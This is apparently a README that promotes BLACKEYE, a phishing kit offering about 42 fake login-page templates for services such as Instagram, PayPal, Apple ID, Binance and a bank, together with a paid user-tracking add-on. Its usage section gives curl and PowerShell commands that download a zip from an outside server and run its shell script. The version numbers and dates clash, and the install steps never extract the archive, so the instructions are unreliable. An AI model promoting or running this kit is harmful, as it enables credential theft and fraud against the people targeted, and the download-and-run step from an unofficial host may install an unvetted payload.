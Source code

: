 ### How to buy UTS7 (User Tracking System 7) and get your discount: s80jfjs

[Buy UTS7 (User Tracking System 7)](https://bpighold.gumroad.com/l/UTS7/s80jfjs)


## BLACKEYE v2.0 (Major Update on August 23, 2025 | New: Bank Template, Upcoming Localhost Feature, and More)
##### The tool is completely free now 

> [! Need Donations]
> Your donations play a vital role in expediting the project's completion. With your support, we can swiftly bring this enhanced version to life and continue delivering valuable updates. [1]: [https://www.buymeacoffee.com/ericksonathome] "Buy Me a Coffee (myberp)"
                                 
-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/Domainbot/Blackeye/tree/main/img/bkev3.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/Domainbot/Blackeye/tree/main/img/bankofa.png)

[New Binance Email Support Clone for BLACKEYE v3.1 ](https://github.com/Domainbot/Blackeye/bes)

Update

[New UTS7 (User Tracking System 7) for BLACKEYE v3.1 ](https://github.com/Domainbot/Blackeye/tree/UTS7)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom      
                                                  [41] Binance Email Support  
                                                  [42] UTS7 (User Tracking System 7)
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/Domainbot/Blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
